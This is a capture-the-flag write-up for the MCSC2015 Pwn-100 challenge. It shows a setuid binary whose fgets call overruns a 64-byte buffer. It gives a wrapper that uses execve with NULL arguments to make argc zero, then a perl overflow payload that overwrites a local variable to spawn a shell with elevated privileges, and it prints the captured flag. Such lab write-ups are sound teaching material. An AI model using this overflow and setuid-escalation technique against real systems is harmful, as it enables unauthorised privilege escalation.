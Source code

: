 ############################
# MCSC2015 writeup for Pwn-100
############################

pwn0@MCSC2015:/challenges/pwn0$ ls -l
total 16
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c

after a quick view in pwn0.c, here's an interesting function

void vuln() 
{
	unsigned int reg;
	char buffer[BUFF_SIZE];
	fgets(buffer , BUFF_SIZE+5 , stdin);
	if(reg == 78954)
	{
		printf("You Win\n");
		system("/bin/dash");
	}
}

However, this function is executed if and only if argc is equal to zero.
In that case, execve can be handy ...


Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.
Step 2 : overwrite the variable reg with 78954
if(reg == 78954)
{
	printf("You Win\n");
	system("/bin/dash");
}
##############################
Step1 : run a program with argc=0
What's special about the family exec call system ?
execve allows you to specify the command-line arguments (including the program name).
a normal call to execve for example would be :
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.

with that said, let's start exploiting .....
First, we write a small program 
#########################
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
############################
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing
pwn0@MCSC2015:/tmp$ cd /tmp/testing/
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper
pwn0@MCSC2015:/tmp/testing$ ./wrapper 
Good Boy
test
pwn0@MCSC2015:/tmp/testing$

we are finally able to execute the vuln() function, let's try to exploit it:
The buffer size is 64, 78954 to hexadecimal is 0x1346A
===========================
A successful exploitation would be like this:
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper 
Good Boy
You Win
id      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)
cat FLAG
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}
